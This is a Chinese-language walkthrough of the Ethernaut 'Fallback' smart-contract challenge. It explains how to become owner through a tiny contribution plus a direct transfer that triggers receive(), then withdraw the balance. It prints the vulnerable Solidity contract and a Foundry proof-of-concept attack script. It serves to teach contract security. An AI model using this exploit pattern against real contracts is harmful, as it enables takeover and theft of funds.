

## Fallback

### 目标：

拥有该合同的所有权，并且将其余额减为0；

### 思路：

观察这道题的要求，拥有该合约的所有权，需要`owner = msg.sender`，只有`contribute()`函数或者收到转账才可以满足，很明显，收到转账这种方式更简单，所以需要利用`.call`对合约进行转账。想要满足`contributions[msg.sender] > 0`只要向`contribute()`函数中转账，且转账金额小于0.001 ether即可满足，转账成功后利用`withdraw()`函数将存款全部提出即可达到要求。

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

### poc:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

interface ITarget{
    function contribute() external payable;
    function withdraw() external;
}

contract Attack is Script{
    ITarget public target = ITarget(0xBE524C61aB248D515b80Dc5daF7545CdB22504E7);
    function run() external {
        vm.startBroadcast();

        target.contribute{value:0.0001 ether}();
        (bool success, ) = address(target).call{value: 0.0001 ether}("");
        target.withdraw();

        vm.stopBroadcast();
    }
}
```


